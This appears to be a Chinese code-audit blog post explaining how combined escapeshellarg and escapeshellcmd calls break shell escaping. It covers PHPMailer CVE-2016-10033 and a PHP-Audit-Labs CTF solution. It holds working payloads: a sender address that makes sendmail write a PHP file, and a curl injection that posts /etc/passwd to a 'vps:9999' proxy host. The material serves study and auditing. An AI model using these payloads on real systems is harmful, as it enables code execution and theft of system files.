escapeshellarg与escapeshellcmd使用不当 关于函数 mail()函数：

1 2 3 4 5 6 7 8 9 10 11 12 13 to 电子邮件收件人，或收件人列表。 subject 电子邮件的主题。 message 所要发送的消息。 additional_headers（可选项） 要插入在电子邮件标题末尾的字符串。 additional_parameters，指定传递给发送程序sendmail的额外参数。
在Linux系统上， php 的 mail 函数在底层中已经写好了，默认调用 Linux 的 sendmail 程序发送邮件。而在额外参数( additional_parameters )中， sendmail 主要支持的选项有以下三种：
QueueDirectory = queuedir 选择队列消息
这个参数可以指定一个目录来记录发送邮件时的详细日志情况。
这个参数可以让我们指定我们发送邮件的邮箱地址。

escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号
会将字符串中含有的单引号加上反斜杠进行转义，并将单引号前后分成两个部分，分别使用单引号括起来。

反斜线（\）会在以下字符之前插入： &#;`|*?~<>^()[]{}$, \x0A 和 \xFF。 ‘ 和 “ 仅在不配对儿的时候被转义。
escapeshellcmd()在单引号或双引号落单的时候将落单的单（双）引号加反斜杠进行转义。
eg:
1 2 3 4 5 6 7 8 9 10 11 传递参数： 127.0.0.1' -v -d a=1 经过escapeshellarg() ， '127.0.0.1'\' '-v -d a=1' 再经过escapeshellcmd()：会将落单的单引号加上反斜杠进行转义： '127.0.0.1'\\' '-v -d a=1\' 最终字符串被分隔为'127.0.0.1'\ ' ' -v -d a=1\' 这是因为反斜杠前面加了转义的反斜杠之后表示的就是它本身了。 如果是传入curl执行命令，那么就会成功执行curl 127.0.0.1\ 即像127.0.0.1\发起请求，post请求的数据是a=1\'
漏洞分析 PHPMailer 命令执行漏洞 ：CVE-2016-10033
下载源码：
1 2 3 4 5 git clone https://github.com/PHPMailer/PHPMailer cd PHPMailer git checkout -b CVE-2016-10033 v5.2.17 git checkout -b 分支名 表示以当前分支的当前状态创建新分支并切换到新分支 -b 表示创建新分支，将代码版本切换到5.2.17。
phpMailer 是一个非常强大的 php发送邮件类,可以设定发送邮件地址、回复地址、邮件主题、html网页,上传附件,并且使用起来非常方便。
class.phpmailer.php中，697行，如果存在$params参数的话，就执行else语句，调用mail函数传入5个参数。

追踪参数的来源：在同文件下的1445行，可以看到$params是经过$this->Sender传进来的，再追踪$this->Sender参数的来源：

在同文件下的1031行，$this->Sender参数由$address参数赋值而来，$address参数经过validateAddress()函数过滤，我们再跟进查看该函数的用法：

validateAddress()函数在同文件下的1068行，往下看可以看到下面的代码是对PHP的版本以及pcre版本和有无进行判断。
如果PCRE的版本大于等于8.0.3，$patternselect参数为pcre8，否则该参数为pcre，如果不存在pcre并且php的版本小于等于5.2.0的话，该参数赋值为noregex，我们找一下noregex的来源：

在往下的一段代码中，有针对该参数的switch判断，

1147行，找到noregex选项，这里对$address的判断是使用@符号进行分割判断的。没有其他的任何过滤。

但是一般情况下现在很少是没有正则匹配的了，并且PCRE的版本都在8及以上，如果这里想要绕过pcre8，那么就需要绕过这一段的正则匹配，但是我还看不太懂，这里我就先不分析了。

绕过这段正则匹配的payload构造：
1 aaa( -X/home/www/success.php )@qq.com
以下是一段p神文章中的测试代码，我加了一点自己的备注：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 <?php require 'PHPMailer/PHPMailerAutoload.php' ;function send ($from $mail = new PHPMailer; $mail ->setFrom($from ); $mail ->addAddress('joe@example.net' , 'Joe User' ); $mail ->isHTML(true ); $mail ->Subject = '<?php phpinfo(); ?>' ; $mail ->Body = 'This is the HTML message body <b>in bold!</b>' ; $mail ->AltBody = 'This is the body in plain text for non-HTML mail clients' ; if (!$mail ->send()) { echo 'Message could not be sent.' ; echo 'Mailer Error: ' . $mail ->ErrorInfo; } else { echo 'Message has been sent' . "\n" ; } unset ($mail ); } $address = "aaa( -X/home/www/success.php )@qq.com" ;send($address ); ?>
通过上述代码就能成功将传入到success.php文件中，造成命令执行。
在新增的补丁中，针对用户输入使用 escapeshellarg 函数进行处理：

而mail 函数底层实现中调用的 escapeshellcmd() 函数处理字符串。
escapeshellarg()和escapeshellcmd()的连用导致单引号逃逸，又会造成命令执行的漏洞。
payload要改为：
1 aaa'( -X/home/www/success.php )@qq.com
参考文章 https://www.leavesongs.com/PENETRATION/PHPMailer-CVE-2016-10033.html
https://paper.seebug.org/161/
https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day5/files/README.md
ctf题目 源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 <?php highlight_file('index.php' ); function waf ($a foreach ($a as $key => $value ){ if (preg_match('/flag/i' ,$key )){ exit ('are you a hacker' ); } } } foreach (array ('_POST' , '_GET' , '_COOKIE' ) as $__R ) { if ($$__R ) { foreach ($$__R as $__k => $__v ) { if (isset ($$__k ) && $$__k == $__v ) unset ($$__k ); } } } if ($_POST ) { waf($_POST );}if ($_GET ) { waf($_GET ); }if ($_COOKIE ) { waf($_COOKIE );}if ($_POST ) extract($_POST , EXTR_SKIP);if ($_GET ) extract($_GET , EXTR_SKIP);if (isset ($_GET ['flag' ])){ if ($_GET ['flag' ] === $_GET ['hongri' ]){ exit ('error' ); } if (md5($_GET ['flag' ] ) == md5($_GET ['hongri' ])){ $url = $_GET ['url' ]; $urlInfo = parse_url($url ); if (!("http" === strtolower($urlInfo ["scheme" ]) || "https" ===strtolower($urlInfo ["scheme" ]))){ die ( "scheme error!" ); } $url = escapeshellarg($url ); $url = escapeshellcmd($url ); system("curl " .$url ); } } ?> <?php $flag = "HRCTF{Are_y0u_maz1ng}" ;?>
一开始是一个waf函数的过滤，将变量名中的flag过滤掉。

但是在后面的利用中，需要传入flag变量，再往上看到有一段变量覆盖的地方：

1 首先是一个遍历数组，如果存在$$__R的话，再遍历$$__R的值，将其变量名赋值给$__k，将其内容值赋值给$__v。然后判断$$__k和$__v的值是否相等，执行unset，将$$__k变量删除掉。

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 在这里我们尝试传入值进行分析： get传入：?flag=QNKCDZO post提交：_GET[flag]=QNKCDZO 然后我们尝试将上面的变量值进行输出来理解代码： 首先$__R接收到的是字段_POST、_GET、_COOKIE，在这里是：$__R: string(5) "_POST" 因此$$__R就是取到$_POST提交的值：$$__R:=>$_POST=>array(1) { ["_GET"]=> array(1) { ["flag"]=> string(7) "QNKCDZO" } } 由此得到$v和$k的值如下： $__k: string(4) "_GET" $__v: array(1) { ["flag"]=> string(7) "QNKCDZO" } 而$$__k也就是$_GET[flag]，那么取到的$_GET提交的值也就是array(1) { ["flag"]=> string(7) "QNKCDZO" } ： $$__k:=>$_GET[flag] =>array(1) { ["flag"]=> string(7) "QNKCDZO" } (获取get传参过来的值，也就是QNKCDZO) 因此$$__k和$__v的值相等，执行unset将$_GET[flag]这个超全局变量删除掉了。

因此get传值的超全局变量被unset之后，就无需再进行waf函数的检测。
在extract函数中，由于post传值为_GET[flag]=QNKCDZO，而EXTR_SKIP参数表示如果有变量冲突，则不会覆盖已有的变量，但是前面的$_GET[flag]已经被unset掉了，因此经过extract函数的处理，就生成了$_GET[flag]变量，值为QNKCDZO，绕过了上方waf函数的检测，从而传入了flag变量。
这一部分的变量覆盖过程建议手动输出理解。
因此通过get和post的一起使用传值，使用md5的弱比较类型找到md5后0e开头的值绕过即可，这里就成功绕过了前面第一part的代码。
下面是第二部分关于escapeshellarg和escapeshellcmd的利用：
这里的话就是利用共用escapeshellarg/cmd函数时加单引号导致的转义将构造的语句前后分段，从而传入system中结合curl执行命令。
在 curl 中存在 -F 提交表单的方法，也可以提交文件。 -F <key=value> 向服务器POST表单。提交文件之后，利用代理的方式进行监听，这样就可以截获到文件了：
1 2 3 4 5 6 7 8 9 10 11 12 13 http://baidu.com/' -F file=@/etc/passwd -x vps:9999， 然后经过escapeshellarg函数处理变成'http://baidu.com/'\' '-F file=@/etc/passwd -x vps:9999' 再经过escapeshellcmd之后变成： 'http://baidu.com/'\\' '-F file=@/etc/passwd -x vps:9999\' 将该payload分成了三段： 'http://baidu.com/'\\ ' ' -F file=@/etc/passwd -x vps:9999\' 在服务器打开监听端口9999，就能监听到传过来的文件。
但是在本机测试代码老出现^这样的奇怪字符，调试了好久也没知道为啥，就没管了，大概的原理就是这样。

wp中有这样一段描述：
这应该也是要注意的问题。
参考文章 https://github.com/hongriSec/PHP-Audit-Labs/blob/master/PHP-Audit-Labs%E9%A2%98%E8%A7%A3/Day5-8/files/README.md